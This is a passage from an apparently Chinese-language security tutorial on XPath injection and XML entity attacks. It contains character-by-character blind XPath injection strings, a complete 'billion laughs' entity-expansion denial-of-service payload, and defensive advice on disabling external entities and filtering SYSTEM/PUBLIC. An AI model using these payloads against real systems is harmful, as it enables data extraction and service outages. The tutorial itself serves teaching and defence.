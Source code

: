 如此循环可得到一个完整的父节点名称
确定address节点的名称后，攻击者就可以轮流攻击它的每个子节点，提取出它们的名称与值。（通过索引）

```
'or substring(//user[1]/*[2]/text(),1,1)='a' or 'a'='a
'or substring(//user[1]/*[2]/text(),1,1)='b' or 'a'='a
'or substring(//user[1]/*[2]/text(),1,1)='c' or 'a'='a
.....
```

同时，既然将xml用作数据库，有可能存在泄漏问题,例如

```
accounts.xml
databases.xml
...
```

### DOS攻击

```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
  <!ENTITY lol "lol">
  <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
  <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
  <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
  <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
  <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
  <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
  <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
  ]>
<lolz>&lol9;</lolz>
```

该攻击通过创建一项递归的 XML 定义，在内存中生成十亿个”Ha！”字符串，从而导致 DDoS 攻击。原理为：构造恶意的XML实体文件耗尽可用内存，因为许多XML解析器在解析XML文档时倾向于将它的整个结构保留在内存中，解析非常慢，造成了拒绝服务器攻击。

XXE还有一些其他攻击方式，发挥你的想象。

## 0x03 防御XXE攻击

**方案一、使用开发语言提供的禁用外部实体的方法**

PHP：

```
libxml_disable_entity_loader(true);
```

其他语言:

https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Prevention_Cheat_Sheet

**方案二、过滤用户提交的XML数据**

关键词：SYSTEM和PUBLIC。



参考：

* https://zh.wikipedia.org/zh-hans/XML
* https://www.secpulse.com/archives/58915.html
* https://security.tencent.com/index.php/blog/msg/69